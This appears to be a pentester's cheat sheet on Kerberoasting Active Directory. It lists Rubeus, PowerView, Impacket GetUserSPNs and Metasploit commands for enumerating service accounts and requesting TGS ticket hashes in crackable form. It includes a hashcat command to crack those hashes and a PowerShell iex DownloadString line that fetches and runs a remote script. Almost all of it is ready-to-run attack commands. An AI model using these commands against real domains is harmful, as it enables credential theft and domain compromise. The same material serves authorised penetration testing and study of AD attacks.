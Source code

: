| `cat .\ilfreight_tgs.csv`                                    | Used to view the contents of the .csv file from a Windows-based host. |
| `.\Rubeus.exe`                                               | Used to view the options and functionality possible with the tool `Rubeus`. Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /stats`                             | Used to check the kerberoast stats (`/stats`) within the target Windows domain from a Windows-based host. |
| `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap` | Used to request/download TGS tickets for accounts with the `admin` count set to `1` then formats the output in an easy to view & crack manner (`/nowrap`) . Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /user:testspn /nowrap`              | Used to request/download a TGS ticket for a specific user (`/user:testspn`) the formats the output in an easy to view & crack manner (`/nowrap`). Performed from a Windows-based host. |
| `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes` | PowerView tool used to check the `msDS-SupportedEncryptionType` attribute associated with a specific user account (`testspn`). Performed from a Windows-based host. |
| `hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt` | Used to attempt to crack the ticket hash using a wordlist (`rockyou.txt`) from a Linux-based host . |


# Kerberoasting without domain account

## Linux

    GetUserSPNs.py -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"

## Windows

    Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"domain.local" /dc:"dc.domain.local" /nopreauth:"NO_PREAUTH_USER" /spn:"TARGET_SERVICE"

# Kerberoastable users enumeration

## Windows

    setspn.exe -Q */* (This is a built-in binary. Focus on user accounts)

    setspn -T [Domain] -Q */* (    Gets all SPNs, Includes machine account SPNs)

    Get-DomainUser -SPN | Select SamAccountName,DisplayName,ServicePrincipalName (Powerview)

    .\Rubeus.exe kerberoast /stats

    iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/RedTeam-Pentest-Tools/main/Kerberoasting/Get-SPNs.ps1")

## Linux (Metaploit, Impacket, https://github.com/skelsec/kerberoast)

    msf> use auxiliary/gather/get_user_spns (Metasploit)

    GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast  (Password will be prompted)

    GetUserSPNs.py -request -dc-ip <DC_IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
